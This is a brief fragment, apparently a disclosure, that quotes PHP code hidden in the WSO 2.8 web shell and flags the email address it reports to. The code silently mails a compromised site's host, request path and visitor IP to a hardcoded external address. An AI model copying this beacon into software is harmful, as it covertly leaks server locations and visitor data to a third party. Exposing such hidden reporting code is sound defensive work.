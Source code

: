 In WSO 2.8
<pre>
$visitc = $_COOKIE["visits"];
if ($visitc == "") {
  $visitc  = 0;
  $visitor = $_SERVER["REMOTE_ADDR"];
  $web     = $_SERVER["HTTP_HOST"];
  $inj     = $_SERVER["REQUEST_URI"];
  $target  = rawurldecode($web.$inj);
  $judul   = "WebShell http://$target by $visitor";
  $body    = "Bug: $target by $visitor<br>";
  if (!empty($web)) { @mail("f3d0s3rv3r@hotmail.com",$judul,$body); }
}
else { $visitc++; }
@setcookie("visitz",$visitc);



Kill f3d0s3rv3r@hotmail.com

